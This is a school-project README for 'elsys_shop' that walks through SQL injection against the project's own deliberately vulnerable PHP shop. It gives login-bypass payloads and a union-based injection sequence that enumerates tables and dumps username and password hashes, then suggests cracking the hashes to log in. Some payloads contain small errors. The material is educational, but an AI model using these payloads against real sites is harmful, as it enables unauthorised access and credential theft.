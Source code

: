# elsys_shop
Small school project. Nothing complicated just simple display of SQL Queries and how to exploit them.

# Basic login bypass
## Hashed input

Username: 
```
1' or '1'='1' --  
```
(note the all the spaces are necessary, even after the comment !)

This works when the password input is hashed, be it MD5 or Sha1.
The password input can be empty, it doesn't matter as we force it to be skipped.
Normal query looks like this:

```
SELECT * FROM users WHERE username='$username' AND password='$password'
```

After the SQL injection the query looks like this:
```
SELECT * FROM users WHERE username='1' or '1'='1' -- ' AND password='da39a3ee5e6b4b0d3255bfef95601890afd80709'
```

## Unhashed input

Username:
```
1' or '1'='1
```
Password:
```
1' or '1'='1
```

Standard query looks just like the previous one.
Malicious query looks like this:
```
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' OR '1'='1'
```

# Blind SQLi - GET

First you need to check if the website is vulnerable.
Add the 'tilde' character at the end of the url as a part of a GET parameter. If the server comes back with any kind of an SQL error, then the page is vulnerable

```
localhost/item.php?item=2`
```

You should get a similar error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '`' at line 1
```
The next step is to find out how many colums does the table have using the order by clause.
add 'order by 1--' without the quotes at the end of the url and start incrementing the number until you get another error
The amount of columns the current table has is equal to the number at which you start getting errors - 1, so if you have order by 5 -- and it's an error, but order by 4 -- isn't an error, then the amount of columns is 4.

```
localhost/item.php?item=2 order by 3-- no error
localhost/item.php?item=2 order by 5-- no error
localhost/item.php?item=2 order by 6-- error 
```
The previous code snippet shows exactly how to execute this command. We can see that in our case we have 5 columns.

Next find out which columns are displayed to the visitors so we can force them to display the db version.
```
localhost/item.php?item=-2 union all select 1,2,3,4,5--
```
We see that the 2nd and 4th columns are vulnerable as they are the only numbers displayed to us
```
localhost/item.php?item=-2 union all select 1,@@version,3,4,5--
```
To get the database name:
```
localhost/item.php?item=-2 union all select 1,database(),3,4,5--
```

As a result you get the information from the query instead the values from the database.
How you continue from now on depends on the database version. If its < 4 you have to use a different harder approach, in our case its 5.7.14 so you have to do: (table_schema = database name from previous query)
```
localhost/item.php?item=-2 union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema='elsys_shop'--
```
Now you will see all the tables that exist currently.
We need the columns. To fetch all the columns execute the following query
```
localhost/item.php?item=-2 union all select 1,group_concat(column_name),3,4,5 from information-schema.columns where table_schema=database()--
```

We get the results - id, user_id, item_id, id, name, quantity, price, added, id, username and password
Usually this is not how you would exploit it but time to find out what's behind username & password.

```
localhost/item.php?item=-2 union all select 1,group_concat(username,ox3a,password),3,4,5 from  users--
```

That's it you get all the users with username:hash combination. You can use an online decrypter to unhash the password and login.
